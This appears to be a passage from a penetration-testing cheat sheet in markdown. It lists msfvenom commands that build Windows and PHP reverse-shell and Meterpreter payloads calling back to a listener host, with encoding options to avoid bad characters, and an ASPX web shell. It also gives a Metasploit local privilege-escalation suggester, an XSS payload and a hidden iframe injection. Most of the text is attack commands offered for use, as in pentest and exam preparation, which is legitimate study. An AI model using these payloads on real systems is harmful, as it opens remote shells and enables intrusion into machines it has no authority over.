 ## Busybox Webserver
```bash
busybox httpd -f -p 9090
```


# Exploiting
## Metasploit Magic

### MSFvenom / Metasploit payloads
```bash
# Windowssystem, reverse tcp ==> use for Buffer Overflows
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f c
# same as above but without bad characters and encoding
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f c -e x86/shikata_ga_nai -b "<BADCHARS>"
# example for BADCHARS: "\x00\x0a\x25\x26\x2b\x3d"

# Don't break the application you exploit:
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "<BADCHARS>"

# Windowssystem, e.g. with IIS
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

# e.g. Apache Webserver with PHP (don't forget to remove comment at the beginning)
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### Metasploit local exploit suggester
Change to a writeable directory before usage for better results.
```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

## Webshells
Webshells are in the following directory on Kali:
/usr/share/webshells

## Cross-Site-Scripting (XSS)
```javascript
<script>alert('Happy Hacking')</script>
```

### Content Injection
```html
<iframe src=<URL> height="0" width="0"></iframe>
```
